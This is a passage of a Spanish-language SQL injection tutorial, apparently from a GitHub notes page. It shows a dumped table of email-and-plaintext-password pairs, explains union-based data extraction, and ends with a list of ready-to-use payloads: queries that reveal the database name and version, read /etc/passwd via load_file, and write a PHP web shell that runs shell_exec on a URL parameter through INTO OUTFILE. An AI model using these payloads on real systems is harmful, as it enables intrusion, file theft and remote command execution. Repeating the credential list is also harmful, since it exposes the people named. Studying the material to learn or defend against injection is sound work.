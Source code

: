 ```sql
--| name                                                                                                                                                                                                                                                                      --| password                      |
--+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+-------------------------------+
--| Dobliuw                                                                                                                                                                                                                                                                   --| U2!+BF!.hZy1ST4r1&6*&3Uu1&3mI |
--| dobliuw@dobliuw.com:U2!+BF!.hZy1ST4r1&6*&3Uu1&3mI,zaikoarg@zaikoarg.com:Z41k0+!1&dDxD_,valenmachu@gmail.com:1254821158644468,brian@gmail.com:Tomi2008,jose32@gmail.com:jose32,robertoperez@gmail.com:roberto1980,david@gmail.com:mihijoelmejor,testing@gmail.com:test!123 | NULL                          |
--+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+-------------------------------+

```

Como podemos ver, en este ejemplo desde la consola, estariamos uniendo junto a una respuesta true, los datos que a nosotros nos interesarian dumpear de una base de datos en especifico, para esto es importante primero haber obtenido todas las columnas para una determinada tabla de una determinada base de dato como se explico anteriormente.

-----
# Stacked Queries based SQLI:

Este tipo de **SQLI** aprovecha la pobilidad de **ejecutar múltiples consultas** en una sola sentencia para obtener información adicional. Por ejempllo, se puede utilizar una consulta que inserta un registro en una tabla y luego agrega una consulta adicional que devuelve información sobre la tabla.

---
# Interesting Injections

## Listar Base de datos en uso
```sql
SELECT x FROM x WHERE x='%s' UNION SELECT database() 
```
## Listar version de MySQL
```sql
SELECT x FROM x WHERE x='%s' UNION SELECT @@version
```
## Intentar leer un archivo del sistema 
```sql
SELECT x FROM x WHERE x='%s' UNION SELECT load_file('etc/passwd')
```
## Intentar ingresar un archivo en una ruta del sistema
```sql
SELECT x FROM x WHERE x='%s' UNION SELECT '<?php echo "<pre>" . shell_exec($_GET[\'cmd\']) . "</pre>"; ?>' INTO outfile '/tmp/file.php'
```

---
